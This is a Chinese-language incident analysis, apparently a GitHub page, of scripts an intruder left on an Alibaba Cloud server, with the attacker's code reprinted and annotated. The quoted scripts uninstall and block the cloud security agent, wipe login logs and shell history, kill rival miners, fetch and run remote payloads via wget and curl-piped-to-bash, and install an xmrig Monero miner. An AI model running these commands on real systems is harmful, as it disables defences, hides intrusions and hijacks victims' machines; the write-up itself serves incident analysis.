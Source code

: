 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(中)

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)


黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```

## bk.sh，推测是靶机脚本

### if语句检测环境内容

#### 第一层 if

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)
* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)


```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi

# 找不到curl命令定义，则丢入黑洞，跳出
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
# if ! sudo -n true 2>/dev/null; then
#  if ! pidof systemd >/dev/null; then
#    echo "ERROR: This script requires systemd to work correctly"
#    exit 1
#  fi
# 看起来是调用（CPU几个核心数*7/10），如果为0，跳出。
CPU_THREADS=$(nproc)
EXP_MONERO_HASHRATE=$(( CPU_THREADS * 700 / 1000))
if [ -z $EXP_MONERO_HASHRATE ]; then
  echo "ERROR: Can't compute projected Monero CN hashrate"
  exit 1
fi
```

以上这echo所打印的报错信息，基本也说明主机不能正常使用，这对他们黑客而言，已经没有任何价值了。如果这些正常的话，则运行下载好的挖矿脚本，以及其专用的挖矿程序。然后又是层层的if环境检验。

#### 第二层 if

参考信息源：

* [入门小站-linux之curl命令](https://zhuanlan.zhihu.com/p/519406107)
* [sed -i 命令入门详解](https://blog.csdn.net/h4241778/article/details/125263518)
* [XMR恶意挖矿案例简析](https://www.sohu.com/a/260504074_354899)
* [诱捕黑客的蜜罐系统](https://baijiahao.baidu.com/s?id=1706341262655959831)
* [linux应用之test命令详细解析](https://www.cnblogs.com/tankblog/p/6160808.html)


```
# curl -L --progress-bar 显示网页内容与进度条，存在异常则直接中断退出。
if ! curl -L --progress-bar "https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz" -o /tmp/xmrig.tar.gz; then
  echo "ERROR: Can't download https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz file to /tmp/xmrig.tar.gz"
  echo ""
  exit 1
fi

#  不能正常解压缩，退出删除文件
if ! tar xf /tmp/xmrig.tar.gz -C $HOME/c3pool --strip=1; then
    echo ""
	echo ""
  fi
  rm /tmp/xmrig.tar.gz

# 使用正则，看上去是为了替换掉原有的config.json的donate-level的数值。
  sed -i 's/"donate-level": *[^,]*,/"donate-level": 0,/' $HOME/c3pool/config.json
  $HOME/c3pool/xmrig --help >/dev/null
  # $? 最后命令的退出状态的返回值。0表示没有错误，其他任何值表明有错误。
  #   # 比较，不等于0，再检验下xmrig还是不是文件，是就打印换行，否则跳出。
  if (test $? -ne 0); then 
    if [ -f $HOME/c3pool/xmrig ]; then
      echo ""
	  echo ""
    else 
      echo ""
	  echo ""
    fi
    exit 1
  fi
fi
```


### echo信息

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

